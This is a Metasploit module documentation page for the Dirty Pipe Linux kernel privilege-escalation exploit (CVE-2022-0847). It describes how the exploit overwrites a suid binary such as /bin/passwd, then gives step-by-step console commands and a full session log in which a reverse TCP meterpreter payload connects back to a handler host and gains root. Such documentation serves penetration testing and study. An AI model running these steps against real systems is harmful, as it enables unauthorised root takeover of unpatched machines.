## Vulnerable Application

This exploit targets a vulnerability in the Linux kernel since 5.8, that allows
writing of read only or immutable memory.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.
The module exploits this vulnerability by overwriting a suid binary with the
payload, executing it, and then writing the original data back.

There are two major limitations of this exploit: the offset cannot be on a page
boundary (it needs to write one byte before the offset to add a reference to
this page to the pipe), and the write cannot cross a page boundary.
This means the payload must be less than the page size (4096 bytes).

The `check` method uses the exploit without a payload, and without overwriting
the suid binary.

## Verification Steps

* Start `msfconsole`
* Get a non-root shell/meterpreter session
* `use exploit/linux/local/cve_2022_0847_dirtypipe`
* `set SESSION <session>`
* `set LHOST <lhost>`
* `run`

## Options

### WRITEABLE_DIR
This indicates the location where you would like the payload and exploit stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### SUID_BINARY_PATH
This option is the path of the remote suid binary that will be overwritten with the payload.
The default value is `/bin/passwd`, which should be present on most Linux distributions.

## Scenarios

### Ubuntu 20.04 x64, Kernel Linux 5.8.0-41-generic

```
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2022_0847_dirtypipe
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set LPORT 4455
LPORT => 4455
msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 192.168.56.1:4455
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing exploit '/tmp/.ucilyzfyg /tmp/.pqwetud'
[+] The target is vulnerable.
[*] Executing exploit '/tmp/.ddvrzro /bin/passwd'
[*] Sending stage (3020772 bytes) to 192.168.56.5
[+] Deleted /tmp/.ucilyzfyg
[+] Deleted /tmp/.pqwetud
[+] Deleted /tmp/.ddvrzro
[*] Meterpreter session 2 opened (192.168.56.1:4455 -> 192.168.56.5:36120 ) at 2022-03-09 08:23:01 +0000
[*] Exploit result:
[+] dirtypipe /bin/passwd
[+] hijacking suid binary...
[+] running suid payload...
[+] restoring suid binary...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.5
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

